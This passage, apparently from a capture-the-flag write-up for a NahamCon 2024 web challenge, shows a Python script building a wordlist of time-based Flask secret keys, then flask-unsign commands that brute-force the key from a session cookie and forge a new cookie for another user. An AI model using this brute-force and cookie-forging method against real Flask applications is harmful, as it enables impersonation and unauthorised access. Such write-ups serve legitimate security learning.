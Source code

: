 ```python
        for hour in hourRange:
            for minute in minuteRange:
                currentTime = datetime.now()
                calculatedTime = currentTime - timedelta(days=day, hours=hour, minutes=minute)
                formattedCalculatedTime = calculatedTime.strftime('%Y%m%d%H%M')
                secretKey = f'THE_REYNOLDS_PAMPHLET-{formattedCalculatedTime}'

                with open('wordlist.txt', 'a') as file:
                    file.write(f'{secretKey}\n')

if __name__ == '__main__':
    uptimeDay = 82816 # adjust the uptime day if needed
    createWordlist(uptimeDay)
```

```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Thomas-DEVerson)-[2024.05.28|13:56:30(HKT)]
└> python3 create_wordlist.py 
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Thomas-DEVerson)-[2024.05.28|13:56:35(HKT)]
└> head wordlist.txt      
THE_REYNOLDS_PAMPHLET-179709041356
THE_REYNOLDS_PAMPHLET-179709041355
THE_REYNOLDS_PAMPHLET-179709041354
THE_REYNOLDS_PAMPHLET-179709041353
THE_REYNOLDS_PAMPHLET-179709041352
THE_REYNOLDS_PAMPHLET-179709041351
THE_REYNOLDS_PAMPHLET-179709041350
THE_REYNOLDS_PAMPHLET-179709041349
THE_REYNOLDS_PAMPHLET-179709041348
THE_REYNOLDS_PAMPHLET-179709041347
```

**Then, use the [Flask Unsign](https://github.com/Paradoxis/Flask-Unsign) tool to brute force the secret key:**
```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Thomas-DEVerson)-[2024.05.28|13:57:40(HKT)]
└> flask-unsign --unsign --wordlist ./wordlist.txt --cookie 'eyJuYW1lIjoiZ3Vlc3QifQ.ZlAbKw.WzYFGTjPkBHcX_cfXZRslyKwUmY'
[*] Session decodes to: {'name': 'guest'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 22016 attemptsLET-17970826
'THE_REYNOLDS_PAMPHLET-179708250845'
```

Nice! We got the secret key!! It's **`THE_REYNOLDS_PAMPHLET-179708250845`**!

**After brute forcing the secret key, we can now forge our own Flask session cookie!**
```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Thomas-DEVerson)-[2024.05.28|13:57:45(HKT)]
└> flask-unsign --sign --secret 'THE_REYNOLDS_PAMPHLET-179708250845' --cookie "{'name': 'Burr'}"
eyJuYW1lIjoiQnVyciJ9.ZlVyjA.2rb4vSGy3gA6nypgN9QxjhOfvA4
```

Finally, we can replace our old session cookie with the new one!

